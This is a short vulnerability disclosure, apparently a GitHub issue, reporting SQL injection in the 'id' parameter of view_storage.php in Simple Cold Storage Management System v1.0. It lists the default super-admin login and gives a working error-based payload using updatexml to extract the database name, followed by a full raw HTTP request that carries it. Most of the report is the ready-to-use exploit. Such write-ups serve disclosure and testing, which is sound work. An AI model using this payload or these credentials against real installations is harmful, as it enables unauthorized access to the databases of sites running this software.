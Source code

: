 # Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: fate@root

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/admin/storages/view_storage.php?id=

Vulnerability location: /csms/admin/storages/view_storage.php?id=, id

dbname =csms_db,length=7

[+] Payload: /csms/admin/storages/view_storage.php?id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /csms/admin/storages/view_storage.php?id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191013718-c7922b01-6d5a-4c32-a6e0-30e3d47c6eeb.png)
